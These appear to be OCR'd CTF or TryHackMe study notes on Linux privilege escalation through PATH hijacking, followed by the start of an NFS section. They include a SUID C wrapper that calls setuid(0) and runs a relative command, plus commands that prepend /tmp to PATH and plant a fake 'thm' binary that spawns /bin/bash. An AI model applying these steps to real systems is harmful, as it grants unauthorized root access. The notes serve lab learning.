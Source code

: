 **Privilege Escalation: PATH**

If a folder for which your user has write permission is located in the path, you could potentially hijack an application to run a script.

```bash
echo $PATH
```

1.	What folders are located under $PATH
2.	Does your current user have write privileges for any of these folders?
3.	Can you modify $PATH?
4.	Is there a script/application you can start that will be affected by this vulnerability?

script like

```bash
#include<unistd.h>
void main(){
	setuid(0);
	setgid(0);
	system("thm");
}
```

```bash
gcc path_exp.c -o path -w
chmod +s path
```

```bash
find / -writable 2>/dev/null
```

we have tmp folder here as writable, suppose

```bash
export PATH=/tmp:$PATH
cd /tmp
echo "/bin/bash" > thm
chmod 777 thm
```

-----------------------------------------------------------------

**Privilege Escalation: NFS**

finding a root SSH private key on the target system and connecting via SSH with root privileges instead of trying to increase your current user’s privilege level.

Another vector that is more relevant to CTFs and exams is a misconfigured network shell. This vector can sometimes be seen during penetration testing engagements when a network backup system is present.

NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.

```bash
cat /etc/exports
```
